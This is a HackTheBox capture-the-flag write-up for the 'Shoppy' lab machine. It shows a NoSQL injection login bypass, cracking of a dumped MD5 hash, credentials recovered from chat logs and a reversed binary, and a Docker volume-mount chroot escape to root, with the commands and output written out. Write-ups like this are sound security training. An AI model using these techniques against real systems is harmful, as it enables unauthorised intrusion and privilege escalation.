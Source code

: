 # Shoppy - HackTheBox - Writeup
Linux, 20 Base Points, Easy

![info.JPG](images/info.JPG)

## Machine

![‏‏Shoppy.JPG](images/Shoppy.JPG)
 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22``` and ```80```.

***User 1***: By utilizing NoSQL Injection, login authentication is bypassed. By searching for a user, the hash of `josh` is found and cracked. Using these credentials, access is gained to `mattermost.shoppy.htb`. On `mattermost`, the credentials for the user `jaeger` are discovered and used for SSH login.

***User 2***: By running the command `sudo -l`, it is determined that the binary `password-manager` can be run as the user `deploy`. By reversing the binary, the binary's authentication password is found and it is discovered that the binary prints the credentials of the `deploy` user.

***Root***: Through the use of Docker container escape, restricted environments are bypassed and an interactive system shell is spawned, providing `root` access to the machine.

![pwn.JPG](images/pwn.JPG)


## Shoppy Solution

### User 1

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar@parrot]─[/hackthebox/Shoppy]
└──╼ $ nmap -sV -sC -oA nmap/Shoppy 10.10.11.180
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-24 22:46 IDT
Nmap scan report for 10.10.11.180
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing [http://shoppy.htb](http://shoppy.htb), we see that the following web page is hosted:

![port80.JPG](images/port80.JPG)

Let's use the tool `gobuster` to discover potential subdomains in order to broaden the scope of our attack:
```console
┌─[evyatar@parrot]─[/hackthebox/Shoppy]
└──╼ $ gobuster vhost -u http://shoppy.htb/ -w bitquark-subdomains-top100000.txt -o vho -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb/
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/26 22:17:29 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                
```

When we access the website http://mattermost.shoppy.htb, we are presented with a web page that displays a login form.

![images/mattermost.JPG](images/mattermost.JPG)

After spending a few minutes testing the authentication logic of the initial web page, we suspect that it is using a MongoDB NoSQL database. We can use the payload `admin'||'1==1` to bypass the authentication:

![images/nosqli.JPG](images/nosqli.JPG)

We gain access to the following dashboard:

![images/dashboard.JPG](images/dashboard.JPG)

By clicking on [Serch for users](http://shoppy.htb/admin/search-users) and using the same payload ```admin'||'1==1``` we get:

![images/adminsearch.JPG](images/adminsearch.JPG)

By clicking the "Download export" button, it returns a JSON file containing the following data:
```json
[
	{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},
	{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}
]
```

By using the tool john, the hash of the user `josh` is cracked:
```console
┌─[evyatar@parrot]─[/hackthebox/Shoppy]
└──╼ $ john --format=Raw-MD5 --wordlist=~/Desktop/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (?)
1g 0:00:00:00 DONE (2022-10-26 22:40) 7.692g/s 6245Kp/s 6245Kc/s 6245KC/s renato123456..remaryl
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed

```

We have acquired the login credentials `josh:remembermethisway`.

By utilizing the credentials `josh:remembermethisway` to log in to http://mattermost.shoppy.htb, we are able to access the user's account and view the chat history:

![images/joshmattermost.JPG](images/joshmattermost.JPG)

In the `Deploy Machine` chat, we discovered the following credentials:

![images/deploychat.JPG](images/deploychat.JPG)

```console
username: jaeger
password: Sh0ppyBest@pp!
```

We were able to confirm that the credentials `jaeger:Sh0ppyBest@pp!` work by using them to log in to the machine via SSH:
```console
┌─[evyatar@parrot]─[/hackthebox/Shoppy]
└──╼ $ ssh jaeger@shoppy.htb
The authenticity of host 'shoppy.htb (10.10.11.180)' can't be established.
ECDSA key fingerprint is SHA256:KoI81LeAk+ps7zoc1ru39Mg7srdxjzOb1UgmdW6T6kI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shoppy.htb,10.10.11.180' (ECDSA) to the list of known hosts.
jaeger@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jaeger@shoppy:~$ cat user.txt 
c9bcaf18f6ed70b9ea12bbbac55f4200
```

And we get the user flag ```c9bcaf18f6ed70b9ea12bbbac55f4200```.

### User 2

By executing the command `sudo -l`, we obtain the following information:
```console
jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

We can copy the binary to our local machine and use the tool `ghidra` to reverse it. By analyzing the main function, we observe the following:

![images/main.JPG](images/main.JPG)

As we can see, the program compares the user input (stored in `local_48`) with a predefined password `Sample`. By using the password `Sample`, we can access the program's functionality:
```console
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

By using the predefined password `Sample`, we are able to obtain the credentials of the user `deploy`. We can then use these credentials to log in to the machine via SSH:
```console
┌─[evyatar@parrot]─[/hackthebox/Shoppy]
└──╼ $ ssh deploy@shoppy.htb 
deploy@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ 
```

### Root

From the chat on `mattermost` we observe a hint about `docker`. By executing the command docker images, we can view the following images:
```console
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   3 months ago   5.53MB

```

We can use the discovered image to create a new Docker container:
```console
$ docker run -it d7d3d98c851f /bin/sh
/ # 
```

After inspecting the container, no useful information was found. We can use techniques like [docker container escape](https://gtfobins.github.io/gtfobins/docker/) to break out of the container's restricted environment and gain access to the host system. This can be done by using techniques such as spawning an interactive system shell:
```console
$ docker run -v /:/mnt --rm -it d7d3d98c851f chroot /mnt sh 
# cat /root/root.txt
c9480bfd5bb1c7ff5649bcc6de09079a
```

And we get the root flag ```c9480bfd5bb1c7ff5649bcc6de09079a```

